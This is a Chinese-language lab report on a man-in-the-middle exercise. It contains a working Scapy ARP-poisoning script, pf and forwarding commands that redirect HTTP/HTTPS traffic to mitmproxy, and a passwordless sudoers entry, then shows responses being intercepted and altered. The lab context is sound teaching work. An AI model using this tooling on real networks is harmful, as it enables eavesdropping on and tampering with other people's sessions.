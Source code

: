 # 网络安全工程 实验2：中间人攻击

## 实验要求

在攻击机上利用Scapy伪造数据包，对另外两台靶机进行ARP欺骗，实现窃听靶机之间的会话，在实现ARP欺骗的基础上，进一步实现中间人攻击。利用iptables 修改流量的转发端口，使用mitmproxy进行拦截请求，可以获取到请求的参数，从中提取出重要的信息，比如用户名和密码，也能够修改响应，改变返回的内容。mitmproxy 提供了inline script 方法，能够使用脚本来操作流量，使得mitmproxy 的功能更加强大，当然也可以尝试拦截https的流量，mitmproxy 也具有这样的能力。

- 要求1：使用Scapy实现窃听另外两台靶机的会话。例如窃听并提取另外两台靶机之间FTP或者HTTP会话的登录账号。
- 要求2：对另外两台靶机进行中间人攻击，实现对会话进行篡改。例如对靶机间的HTTP会话进行注入，修改HTTP响应。

## 实验环境

- 网络环境：利用路由器的自组无线局域网，子网网段192.168.1.0/24
- 攻击者 Attacker：
    - OS: MacOS 10.14
- 服务器 Server：
    - OS: MacOS
    - IP: 192.168.1.107
- 客户机 Victim：
    - OS: Windows 10
    - IP: 192.168.1.104
- **注意**：由于使用物理机环境而非kali虚拟机，因此部分操作与实验指示书有所不同

## 实验步骤

### 要求1

1. 首先将三台主机连入子网，为server配置http服务，随后用客户机victim通过浏览器访问服务器ip地址，可以得到 http response 如下：

    ![HTTP RESPONSE](fig/browser_norm.PNG)

2. 在攻击者上编写arp poison脚本，原理是利用Scapy分别向server和victim不断发送被修改过的ARP包，从而在二者的ARP缓存中投毒，将两者对于对方的ARP缓存均更改为attacker的MAC地址。脚本详见`src/arp_poison.py`，主要内容如下：

    ```py
        server_ip = "192.168.1.107"
        victim_ip = "192.168.1.104"

        # 获取目标ip的MAC地址
        def get_mac(ip_address):
            ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address), timeout=2, retry=10)
            for s, r in ans:
                return r[Ether].src
            return None

        # 分别获取二者的MAC
        victim_mac = get_mac(victim_ip)
        server_mac = get_mac(server_ip)

        # 构造ARP包
        # 发给server的包中，源ip为victim，但源mac为attacker
        # 发给victim的包类似
        poison_server = ARP()
        poison_server.op = 2
        poison_server.psrc = victim_ip
        poison_server.pdst = server_ip
        poison_server.hwdst = server_mac

        poison_victim = ARP()
        poison_victim.op = 2
        poison_victim.psrc = server_ip
        poison_victim.pdst = victim_ip
        poison_victim.hwdst = victim_mac

        # 循环发送，保证占有ARP缓存
        while True:
            send(poison_server)
            send(poison_victim)
            time.sleep(2)
            print("Poisoning...")
    ```
3. 执行上面的脚本，开始ARP投毒

    ```bash
        $ python arp_poison.py
    ```

4. 为了使用mitmproxy，attacker需要开启转发，流程参考 [mitmproxy docs](https://docs.mitmproxy.org/stable/howto-transparent/#macos)，具体操作如下：

    ```bash
        $ sudo sysctl -w net.inet.ip.forwarding=1
        $ echo "rdr on en0 inet proto tcp to any port {80, 443} -> 127.0.0.1 port 8080" > pf.conf
        $ sudo pfctl -f pf.conf
        $ sudo pfctl -e
    ```
    随后修改`/etc/sudoers`，在文件末尾添加如下内容：
    ```
        ALL ALL=NOPASSWD: /sbin/pfctl -s state
    ```

5. 开启`mitmproxy`进行流量监听：
    ```bash
        $ mitmproxy --mode transparent
    ```

5. 此后，victim再向server发送请求时，attacker都会监听到HTTP会话，如，victim再次通过浏览器访问server时，attacker可以监控到相应的GET和Response：
    ![transparent](fig/transparent.PNG)

### 要求2

1. attacker在`mitmproxy`中开启对server (192.168.1.107) 的流量拦截：
    ![intercept](fig/intercept.PNG)
2. victim再次发送GET请求时，Response将被截获：
    ![intercept response](fig/intercept_response.PNG)
3. 这时attacker即可对包进行编辑，从而达到篡改会话的目的，如这里我们进行HTTP会话注入，修改回复内容：
    - 原始内容：
        ![response_origin](fig/response_origin.PNG)

    - 修改内容：
        ![response_edited](fig/response_edited.PNG)
4. attacker完成修改后，即可按`a`放行，victim将收到被篡改过的回复：
    ![browser_poison](fig/browser_poison.PNG)

## 分工情况


